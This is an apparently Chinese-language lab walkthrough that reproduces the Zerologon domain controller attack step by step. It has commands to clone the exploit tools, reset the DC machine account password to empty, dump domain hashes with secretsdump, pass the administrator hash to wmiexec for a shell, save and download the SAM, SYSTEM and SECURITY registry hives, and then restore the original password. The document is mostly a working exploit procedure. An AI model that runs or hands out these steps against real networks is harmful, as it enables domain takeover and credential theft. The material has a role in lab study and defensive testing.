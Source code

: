 域环境搭建参见：https://github.com/ybdt/post-hub/blob/main/7-横向移动/2021_07_03_域环境搭建/readme.md

受害机器：Win2019_x64_zh-cn  
攻击机器：kali  
复现过程共5个步骤

```
git clone https://github.com/risksense/zerologon
git clone https://github.com/SecureAuthCorp/impacket
cd ./impacket && pip3 install .
```

步骤1：在第一个终端下置空域控的机器用户密码：
```
cd ./zerologon
python3 ./set_empty_pw.py WIN-184MQ8D0KOO 192.168.202.138
其中WIN-184MQ8D0KOO为域控的计算机名，192.168.202.138为域控的ip地址
定位域控可通过命令：net time /domain
```
如下图：  
![image](./pic/1.png)

步骤2：在第二个终端下提取域控中存储的密码哈希：
```
cd ./impacket/examples/
python3 ./secretsdump.py -no-pass -just-dc ybdt.best/WIN-184MQ8D0KOO\$@192.168.202.138
这里要注意$前有一个\，否则会报错名字或服务未知
```
![image](./pic/2.png)

步骤3：在第三个终端下使用提取的administrator的密码哈希执行命令，拿到伪交互式shell：
```
cd ./impacket/examples/
python3 ./wmiexec.py ybdt.best/administrator@192.168.202.138 -hashes :a87f3a337d********f9416be5787d86

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
lget sam.save
lget security.save
lget sysetm.save
del sam.save
del security.save
del system.save
```
如下图：  
![image](./pic/3.png)

步骤4：在第四个终端下提取原机器用户的密码哈希
```
python3 secretsdump.py -sam sam.save -system system.save -security security.save local
```
如下图：  
![image](./pic/4.png)

步骤5：在第五个终端下恢复原机器用户的密码哈希
```
python3 ./reinstall_original_pw.py WIN-184MQ8D0KOO 192.168.202.138 ffdab15f085c47cec9de338787e3a66c37004a694e1b0d87f675851b5b860ce16988ffa47b2a85d6e5c7af761ef9ef50a53dabfe6b62d9207a7519a6642548fd6c5ac5a0853446c178aef63da854daf6da389d7ce5c4abd1823f43aea1edde71e6d9e47933638fa06a41c3c79fa862577af77287abbadd77f5675d89c166f8e26e232693564fba153f38ccc3032b639691bd667015e5c5846251a67caaac75bf5255264600587222f7583182eb19d3e17284dbd7774a24216ad9ab601067578155c690d27044bf6765e6665bea36b0f059ae000ae9bfcc908b097b5085bdda71b883360d5a4eab76b5d2dd57b383b9
```
如下图：  
![image](./pic/5.png)
